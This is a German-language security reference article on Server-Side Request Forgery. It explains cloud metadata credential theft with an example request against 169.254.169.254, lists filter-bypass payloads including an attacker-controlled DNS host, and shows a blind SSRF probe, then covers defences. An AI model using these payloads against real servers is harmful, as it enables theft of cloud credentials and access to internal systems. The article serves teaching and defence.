

---
tags:
  - Security
  - Vulnerability
  - Web Security
  - Server-Side
  - SSRF
  - Cloud
  - OWASP
---

# Server-Side Request Forgery (SSRF)

**Server-Side Request Forgery (SSRF)** ist eine serverseitige Sicherheitslücke, bei der ein Angreifer eine Webanwendung dazu verleitet, im eigenen Namen unautorisierte HTTP- oder Netzwerk-Anfragen an ein beliebiges Ziel zu senden.

---

## Warum SSRF im Cloud-Zeitalter so kritisch ist

Normalerweise schützt eine Firewall (DMZ) das interne Firmennetzwerk vor direkten Zugriffen aus dem Internet. Der Webserver selbst befindet sich jedoch **innerhalb** dieser Sicherheitszone und hat Zugriff auf interne Schnittstellen:



Typische Ziele von SSRF-Angriffen:
1. **Cloud Metadata Services:** Auslesen temporärer Admin-Schlüssel (AWS IAM Credentials, GCP Service Account Tokens).
2. **Interne Administrations-Panels:** Zugriff auf Dienste wie `http://localhost/admin` oder `http://192.168.1.1/`, die nur für lokale IP-Adressen freigeschaltet sind.
3. **Interne Microservices & Datenbanken:** Zugriff auf Redis (`dict://`), Elasticsearch oder interne REST-APIs ohne Authentifizierung.

---

## Wo tritt SSRF typischerweise auf?

Überall dort, wo eine Webanwendung externe Ressourcen über eine vom Benutzer angegebene URL nachladen soll:
- **Profilbild-Import über URL** (`https://example.com/avatar?url=...`)
- **PDF-Generierung aus HTML/Websites** (Headless Chrome / WeasyPrint)
- **Webhooks & API-Integrationen**
- **Link-Vorschauen (Unfurling)** in Chat-Systemen

---

## 1. Das Cloud-Metadaten-Szenario (AWS, GCP, Azure)

In Cloud-Umgebungen stellt der Host-Hypervisor unter der link-lokalen IP-Adresse `169.254.169.254` einen internen HTTP-Dienst bereit, der Metadaten über die laufende Instanz liefert.

### AWS EC2 (IMDSv1):
```text
GET /proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role HTTP/1.1
```
Antwort des internen Dienstes:
```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "wJalrXUtn...",
  "Token": "IQoJb3JpZ2lu..."
}
```
Mit diesen Schlüsseln kann der Angreifer über das AWS CLI die gesamte Cloud-Infrastruktur des Opfers steuern!

---

## 2. Typische Filter-Bypasses

Entwickler versuchen oft, SSRF durch einfache Blacklists zu verhindern (z. B. Blockieren von `127.0.0.1` oder `localhost`). Diese lassen sich fast immer umgehen:

| Technik | Payload / Beispiel | Erklärung |
| :--- | :--- | :--- |
| **Alternative IP-Formate** | `http://127.1/` oder `http://2130706433/` | Dezimale oder gekürzte Darstellung von `127.0.0.1`. |
| **Hexadezimal / Oktal** | `http://0x7f000001/` | Hex-Darstellung von Localhost. |
| **IPv6 Localhost** | `http://[::1]/` oder `http://[0:0:0:0:0:0:0:1]/` | IPv6-Notation wird oft von IPv4-Filtern übersehen. |
| **Eigene Domain mit DNS-A-Record** | `http://local.attacker.com` | Eine Domain, deren DNS-A-Record auf `127.0.0.1` oder `169.254.169.254` zeigt. |
| **DNS Rebinding** | Erste DNS-Abfrage liefert valide externe IP, die zweite nach dem Filtercheck liefert `127.0.0.1`. | Umgeht Prüfungen vor dem eigentlichen Socket-Connect. |
| **URL-Parsing-Inkonsistenzen** | `http://expected-domain.com@127.0.0.1/` | Ausnutzung von RFC-Unterschieden zwischen Validierungs-Bibliothek und HTTP-Client. |
| **Open Redirects verketten** | `/fetch?url=https://target.com/redirect?to=http://127.0.0.1` | Wenn der Server Redirects automatisch folgt. |

---

## 3. Blind SSRF (Out-of-Band OAST)

Wird der Inhalt der Antwort nicht an den Angreifer zurückgegeben (*Blind SSRF*), nutzt man den **Burp Collaborator**:
```text
POST /webhook HTTP/1.1
Host: target.com

{"target_url": "http://xyz.oastify.com"}
```
Erhält die Collaborator-Subdomain eine DNS-Anfrage oder einen HTTP-Request, ist die Schwachstelle bestätigt.

---

## Abwehrmaßnahmen

1. **Whitelisting statt Blacklisting:** Wenn URLs aufgerufen werden müssen, nur streng definierte Protokolle (`https://`) und vertrauenswürdige Ziel-Domains erlauben.
2. **Netzwerk-Segmentierung:** Der Webserver sollte auf Firewall-Ebene keinen Zugriff auf interne Verwaltungsnetze oder den Cloud-Metadatendienst haben.
3. **AWS IMDSv2 aktivieren:** Erzwingt session-basierte Header (`X-aws-ec2-metadata-token`), die bei einfachen GET-SSRFs nicht gesetzt werden können.
4. **IP-Validierung nach DNS-Auflösung:** Die IP-Adresse muss unmittelbar vor dem Verbindungsaufbau aufgelöst und geprüft werden, ob sie in private IP-Bereiche (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `127.0.0.0/8`, `169.254.0.0/16`) fällt.
